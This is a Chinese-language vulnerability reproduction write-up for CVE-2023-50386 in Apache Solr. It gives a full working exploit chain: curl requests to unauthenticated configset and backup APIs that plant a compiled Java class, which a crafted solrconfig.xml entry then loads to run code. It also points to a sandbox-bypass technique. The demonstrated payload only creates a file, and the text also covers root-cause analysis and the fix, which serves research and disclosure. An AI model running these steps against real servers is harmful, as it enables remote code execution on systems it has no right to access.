

# 介绍

复现来源
https://xz.aliyun.com/t/13637?time__1311=mqmxnQ0QiQi%3DDtKDsD7md0%3DLeKkYWeD97jYD&alichlgref=https%3A%2F%2Fwww.google.com%2F
本质上是开始了SolrCloud(-c)，导致可以访问到admin的备份上传接口，从而覆盖到相应的配置文件,让 Solr 加载自定义 class,  去执行恶意java代码。


# 影响版本

6.0.0 <= Apache Solr < 8.11.3
9.0.0 <= Apache Solr < 9.4.1
SolrCloud 模式

# CVE-2023-50386 漏洞简介

Apache Solr Backup 远程代码执行漏洞

此外，Apache Solr 中还修复了另一个代码执行漏洞（CVE-2023-50386），该漏洞的 PoC 已公开。在受影响版本中，SolrCloud 模式下，Solr ConfigSets 接受通过 ConfigSets API 上传的 Java jar 和 class 文件。备份 Solr 集合时，使用 LocalFileSystemRepository（备份的默认设置）时，这些 configSet 文件将保存到磁盘，当备份被保存到 Solr ClassPath/ClassLoaders 目录时，可能导致任意代码执行。

Apache Solr 在创建 Collection 时会以一个特定的目录作为 classpath，从中加载一些类，而 Collection 的备份功能可以导出攻击者上传的恶意 class 文件到该目录，从而让 Solr 加载自定义 class，造成任意 Java 代码执行，可以进一步绕过 Solr 配置的 Java 沙箱，最终造成任意命令执行。

# 漏洞复现

## 容器测试

```sh
docker run --rm -ti --name solr9.0.0 -p 8983:8983 -p 5005:5005  solr:9.0.0 bash
# 启动并进入solr容器
bin/solr start -c
# bin/solr start -c -a "-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005"
# -c以SolrCloud模式启动Solr，并附加Java调试参数 -a debug
```

访问`http://192.168.136.130:8983`

## 准备配置文件

先以 root 权限进入 Solr 容器，打包默认的配置文件并复制出来，当然也可以从 Solr 源码中获得：

```sh
docker exec -ti -uroot solr9.0.0_src bash
cd /opt/solr-9.0.0/server/solr/configsets/_default
tar cvf conf.tar conf/
#exit
docker cp solr9.0.0:/opt/solr-9.0.0/server/solr/configsets/_default/conf.tar ~/
cd ~/
```

## 编译恶意 class

编译一个包名为 zk_backup_0.configs.conf1 的 Java 类

```sh
mkdir -p zk_backup_0/configs/conf1
```

编辑 zk_backup_0/configs/conf1/Exp.java
内容：

```java
package zk_backup_0.configs.conf1;
import java.io.File;
public class Exp {
    static {
        try {
            new File("/tmp/success").createNewFile();
        }catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

```sh
docker run --rm -v $(pwd):/usr/src/myapp -w /usr/src/myapp openjdk:17-jdk javac zk_backup_0/configs/conf1/Exp.java

```

## Exp

编译完放在配置文件目录中

```sh
tar xvf conf.tar
mv zk_backup_0/configs/conf1/Exp.class conf/
mv conf conf1
cd conf1
zip -q -r conf1.zip *
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf1.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=conf1"

```

用 conf1 创建 collection1
用上一步上传的配置 conf1 去创建一个 Collection，名为 collection1

```sh
curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=collection1&numShards=1&replicationFactor=1&wt=json&collection.configName=conf1"

```

备份 collection1，导出 conf1
通过备份功能可以将 collection1 导出，其中包括创建 collection1 时用的配置文件，也就是 conf1，从而恶意 class 也随之导出。

以下 API 中 location 为要导出的路径，/var/solr/data/是 SOLR_HOME 的路径。name 为导出的名字，其实也就相当于路径的一部分

```sh
curl "http://127.0.0.1:8983/solr/admin/collections?action=BACKUP&collection=collection1&location=/var/solr/data/&name=collection2_shard1_replica_n1"

```

响应完成后，collection1 被导出到了/var/solr/data/collection2_shard1_replica_n1

而它对应的配置被导出到了/var/solr/data/collection2_shard1_replica_n1/collection1/zk_backup_0/configs/

通过备份的接口再次导出 collection1，注意 location 和 name 都有变化：

```sh
curl "http://127.0.0.1:8983/solr/admin/collections?action=BACKUP&collection=collection1&location=/var/solr/data/collection2_shard1_replica_n1&name=lib"
```

这次导出后，会发现我们的 class 最终在/var/solr/data/collection2_shard1_replica_n1/lib/collection1/zk_backup_0/configs/conf1

目录结构 zk_backup_0/configs/conf1 与包名 zk_backup_0.configs.conf1 恰好对应

上传配置文件 conf2
默认配置的 solrconfig.xml 文件有个 valueSourceParser 标签

```xml
<valueSourceParser name="myfunc" class="zk_backup_0.configs.conf1.Exp" />
```

打包上传，命名为 conf2

```sh
tar xvf conf.tar
mv conf conf2
cd conf2
zip -q -r conf2.zip *
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @conf2.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=conf2"
```

用 conf2 创建 collection2

```sh
curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=collection2&numShards=1&replicationFactor=1&wt=json&collection.configName=conf2"
```

Collection 创建过程中会将 SOLR_HOME/collection2_shard1_replica_n1/lib/下的 jar 包或者一级子目录作为 URLClassLoader 的 urls。并且会加载 solrconfig.xml 中配置的类，从而导致 zk_backup_0.configs.conf1.Exp 类的静态代码被执行



## 原文后续

绕过沙箱
其实在 Solr 中通过这种方式执行 Java 代码是会受沙箱限制的，这也是为什么我用了 new File("/tmp/success").createNewFile();创建文件来演示漏洞而非命令执行。

绕过也比较容易，参考：https://www.mi1k7ea.com/2020/05/03/%E6%B5%85%E6%9E%90Java%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/#%E5%88%9B%E5%BB%BAClassLoader%E7%BB%95%E8%BF%87

删除创建的配置和 Collection
curl "http://127.0.0.1:8983/solr/admin/collections?action=DELETE&name=collection1"
curl "http://127.0.0.1:8983/solr/admin/configs?action=DELETE&name=conf1"
curl "http://127.0.0.1:8983/solr/admin/configs?action=DELETE&name=conf2"
漏洞分析
漏洞复现过程尽管很复杂，但漏洞关键其实就几点

Solr 在创建 Collection 时会加载配置文件中设置的 Java 类，而 classpath 是一个特定的目录
备份 Collection 时会导出一系列配置文件，而这些文件由用户上传
备份导出的路径在一定程度上可控
所用到的 api 接口默认情况下均可未授权访问
挖掘思路
挖掘 Solr 前，我的目的很明确，只关注 RCE 漏洞，然后去大概了解了一下 Solr 的用途和历史漏洞。有一篇 Solr 的总结很全面：https://paper.seebug.org/1515/

分析完历史漏洞后，感觉 Solr 最大的问题是默认情况下很多敏感的接口都是未授权可访问，我觉得这也是挖掘新洞的一个着手点。

其中关于配置集，和 Collection 管理的 api 尤其受关注。因为创建 Collection 时可以指定某个配置，而这些配置又由用户上传，配置中某些配置项又必然影响某些代码逻辑。

https://solr.apache.org/guide/solr/9_0/configuration-guide/configsets-api.html

https://solr.apache.org/guide/solr/9_0/deployment-guide/collection-management.html

调试分析
加载 lib
在 org.apache.solr.handler.admin.CollectionsHandler#handleRequestBody 打断点，然后发起如下请求

curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=test_collection&numShards=1&replicationFactor=1&wt=json&collection.configName=_default"
这里就是 Collection 相关请求的入口

然后到 org.apache.solr.core.SolrConfig#initLibs

这里的 libPath 即/var/solr/data/test_collection_shard1_replica_n1/lib，此路径如果存在的话，就会用这个路径下的 Jar 包和一级子目录作为 urls 创建 URLClassLoader，该 URLClassLoader 对象储存在 org.apache.solr.core.SolrResourceLoader#classLoader。

（可以手动在这个目录下创建 lib，观察一下代码逻辑）：

后续读取配置文件中的类并加载的代码就不再跟了。

写入 lib
后面的挖掘方向就是如何在/var/solr/data/test_collection_shard1_replica_n1/lib 目录下写入所需文件，这是这个漏洞另一个关键的地方。

回到备份 Collection 的 api：

http://127.0.0.1:8983/solr/admin/collections?action=BACKUP&collection=collection1&location=/var/solr/data/&name=dirname
这个 api 调用示例的是将 collection1 导出到/var/solr/data/路径下的 dirname 目录，要求 location 这个目录必须提前存在，然后我们借由配置文件上传的可控的文件在更深的路径，即/var/solr/data/dirname/collection1/zk_backup_0/configs/conf1/

我一开始想往/var/solr/data/test_collection_shard1_replica_n1/lib/写入一个 Jar 包，也尝试目录穿越等等方法，发现确实无法做到。只能在 libPath 的子子子子目录写入可控文件，也就是/var/solr/data/test_collection_shard1_replica_n1/lib/collection1/zk_backup_0/configs/conf1/，当然把 Jar 包写在这里是不能被识别的。

后来想到 Java 的类结构，不也是包名/包名/包名/类名.class，刚好抵消这里多出来的子目录，所以就有了前文复现流程中的奇怪的包名。

漏洞修复
https://github.com/apache/solr/commit/28d6b0163316376ef3b5429b3554c5041b47b5be

增加了备份导出时的文件类型黑名单
